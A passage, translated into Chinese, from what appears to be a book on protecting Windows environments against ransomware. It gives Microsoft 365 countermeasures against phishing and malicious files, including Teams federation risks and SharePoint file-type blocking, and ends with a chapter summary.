这可确保用户无法下载可能包含恶意软件或其他恶意内容的文件。

另一个应该使用的功能是，在我们拥有正确的许可证的情况下，使用 Microsoft Defender for Office。您可以在本书的 GitHub 仓库中找到有关如何实施它的更多详细信息，您可以在此处找到：https://github.com/PacktPublishing/Windows-Ransomware-Detection-and-Protection/tree/main/chapter4。

## 其他对策

除了前面列出的资源外，在减少钓鱼攻击风险或用户访问恶意内容方面，还有一些其他额外提示：

- 默认情况下，Microsoft Teams 允许开放式联合，这允许任何组织向另一组织中的另一用户发送直接即时消息。最近，我遇到了一起案例，其中大量用户收到来自另一组织中某人的消息，冒充 IT 部门的用户。

您可以在 `https://msandbu.org/phishing-attacks-in-microsoft-teams-and-external-federation/` 阅读更多关于该攻击及其对策的信息。

- 作为 SharePoint 管理员，您还可以定义同步策略来定义用户允许（或不允许）同步的附件文件类型。阻止文件扩展名为 `.exe`、`.hta`、`.js` 或 `.iso` 的文件是一个好的开始。您可以在 `https://docs.microsoft.com/en-us/onedrive/block-file-types` 阅读更多关于如何设置此功能的信息。

- 需要注意的是，诸如安全链接和安全附件等功能为电子邮件、Teams 和 SharePoint 提供了安全机制。它们仍可被绕过，使用合法的 URL，例如来自 Microsoft 的其他 OneDrive URL 或其他基于 Azure 的服务，如此处所述：`https://thalpius.com/2022/03/28/microsoft-defender-for-office-365-safe-links-bypass/`。

因此，重要的是要注意，虽然提到的这些安全功能会提高您的安全性，但它们并非万无一失。

## 总结

在本章中，我们更详细地研究了使用 Endpoint Manager 的端点对策，其中包括 ASR 规则以及 Defender 和反恶意软件规则的管理。此外，我们还学习了如何确保我们的端点保持最新，并且我们的浏览器定期更新。然后，我们深入了解了如何使用 MFA 服务（如 Conditional Access 和使用 Azure MFA 服务的 NPS）来保护我们的服务。最后，我们研究了如何使用 SPF、DKIM、DMARC 以及 Office 365 中的其他机制（如 Safe Attachments）来保护我们的电子邮件。

作为保护免受勒索软件攻击的整体安全策略的一部分，实施保护最终用户和设备的安全机制将最大程度地降低勒索软件的风险。然而，我们仍然需要对环境有一个整体的看法。因此，实施虚拟基础设施的安全机制也很重要。在下一章中，我们将更深入地研究如何在 Microsoft Azure 中为运行的工作负载实施对策。
